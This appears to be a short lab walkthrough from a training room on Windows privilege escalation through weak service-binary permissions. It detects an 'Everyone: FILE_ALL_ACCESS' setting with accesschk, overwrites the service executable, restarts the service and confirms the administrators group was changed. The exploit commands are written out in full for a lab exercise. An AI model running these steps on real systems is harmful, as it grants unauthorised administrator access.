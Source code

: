 **Detection**

Windows VM

1. Open command prompt and type: 

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

![[Pasted image 20240206201517.png]]

2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

**Exploitation**

Windows VM

1. Open command prompt and type: 

```
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

3. In command prompt type: 

```
sc start filepermsvc
```  

![[Pasted image 20240206201937.png]]

4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```

Answer the questions below

Click 'Completed' once you have successfully elevated the machine
